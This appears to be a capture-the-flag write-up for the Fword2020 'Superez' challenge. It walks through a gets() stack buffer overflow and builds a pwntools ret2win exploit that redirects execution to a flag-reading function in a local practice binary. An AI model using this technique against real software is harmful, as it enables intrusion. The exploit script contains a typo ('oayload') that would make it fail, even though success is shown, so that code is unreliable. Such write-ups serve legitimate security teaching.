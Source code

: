 # Fword2020 Superez

Let's begin by inspecting the file, and its protections:

```
mfumega@pwn-boy:/pwn-boy$ file ./superez
./superez: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=7ff6ed31455f3956d093833c02d0c0320253657e, not stripped
mfumega@pwn-boy:/pwn-boy$ pwn checksec ./superez
[*] '/pwn-boy/superez'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```
We are dealing with a 64 bites binary, little endian, and from this output we know that:
- We can overwrite some sections of the Global Offset Table (GOT)
- The stack is Not-Executable. So we can't inject shellcode and run it on the stack

Let's run it. 

```
mfumega@pwn-boy:/pwn-boy$ ./superez
Welcome to FwordxKahla Platform, I'll miss Boruto episode because of the CTF :angry:
So solve me pleasee

Enter Your password to continue:
you typed 'AAAA', Good Bye!
```

Ok, after opening the binary with Ghidra, there is a main function. 

It calls a function `print_header()` that prints on screen the text we just saw. After initializing a few variables, we see the following code snipet:

```
    printf("Enter Your password to continue: ");
    gets(local_a8);
    printf("you typed \'%s\', Good Bye!\n",local_a8);
```

It's capturing our input with the insecure function `gets()`, and it stores that on the "local_a8" variable.

From the first lines of the main function, where the variables are initialized, we know that "local_a8" is a 32 bytes variable. So, we have a stack buffer overflow here.

If we keep looking at the binary on Ghidra, we'll find  a function called `rasengan`, which is opening the "flag.txt" file. So, let's try to solve this challenge as a regular ret2win. Where we redirect the program flow to a desired address we of our choice. 

Let's run the binary on GDB, and take a look at how the stack is after `gets()`is called. 

```
     0x400ae6 <main+00ec>      call   0x4007c0 <gets@plt>
 →   0x400aeb <main+00f1>      lea    rax, [rbp-0xa0]
     0x400af2 <main+00f8>      mov    rsi, rax
     0x400af5 <main+00fb>      lea    rdi, [rip+0x1d6]        # 0x400cd2
     0x400afc <main+0102>      mov    eax, 0x0
     0x400b01 <main+0107>      call   0x400790 <printf@plt>
     0x400b06 <main+010c>      mov    rax, QWORD PTR [rip+0x2015a3]        # 0x6020b0 <stdin@@GLIBC_2.2.5>
────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "superez", stopped 0x400aeb in main (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400aeb → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/25gx $rsp
0x7fffffffdc70: 0x0000000041414141      0x0000000000000000
0x7fffffffdc80: 0x0000000000000000      0x00007ffff7fe48e0
0x7fffffffdc90: 0x0000000500004500      0x00008a73000000bf
0x7fffffffdca0: 0x010004157f1c0300      0x170f12001a131100
0x7fffffffdcb0: 0x0000000000000016      0x0000000000000000
0x7fffffffdcc0: 0x0000000f00001000      0x00007fff0000000f
0x7fffffffdcd0: 0x0000000500004500      0x00008a3b000000bf
0x7fffffffdce0: 0x010004157f1c0300      0x170f12001a131100
0x7fffffffdcf0: 0x0000000000000016      0x0000000000000000
0x7fffffffdd00: 0x0000000f00001000      0x000000000000000f
0x7fffffffdd10: 0x0000000000000001      0x00007ffff7da8d90
0x7fffffffdd20: 0x0000000000000000      0x00000000004009fa
0x7fffffffdd30: 0x00000001ffffde10
gef➤
```

We set a breakpoint at 0x400aeb. We run the program, and input 'AAAA'. We continue the execution, hit the breakpoint, and inspect the stack and we can see our input '41414141'. 

By looking at the stack this way, sometimes we may be able to recognize where the program will jump after, because well see an address that looks like the base one (0x400aeb in this case), but to be sure, we can just continue the execution up to the RET instruction on the function we are in.

```
 →   0x400b47 <main+014d>      ret
   ↳  0x7ffff7da8d90 <__libc_start_call_main+0080> mov    edi, eax
```
Here we see that the program is trying the jump to the address 0x7ffff7da8d90. And when we inspected the stack we saw this same value at 0x7fffffffdd18. 

```
gef➤  p *0x7fffffffdd18
$2 = 0xf7da8d90
```

So, if we overwrite that value with the address of the function `rasengan` which is
```
gef➤  p rasengan
$7 = {<text variable, no debug info>} 0x400917 <rasengan>
gef➤
```

We should get the flag. If we do some math, we can substract the address at where out input starts to the address where the return address is, and we can get the offset. `(0x7fffffffdd18 - 0x7fffffffdc70) = 168`

Let's build the exploit.

```
#!/usr/bin/env python3
from pwn import *
p = process('/pwn-boy/superez', stdin=PTY, stdout=PTY)

p.recvuntil('continue: ')
offset = 168

payload = b'A' * offset 
oayload += p64(0x400918) 

p.sendline(payload)
response = p.recvall()
print(response.decode('latin-1'))
```

We run it, and we got the flag!
```
mfumega@pwn-boy:/pwn-boy$ ./do.py
[+] Starting local process '/pwn-boy/superez': pid 479859
/pwn-boy/./do.py:5: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil('continue: ')
[+] Receiving all data: Done (319B)
[*] Process '/pwn-boy/superez' stopped with exit code -11 (SIGSEGV) (pid 479859)
you typed 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x18 @', Good Bye!
local{mock_flag}
```


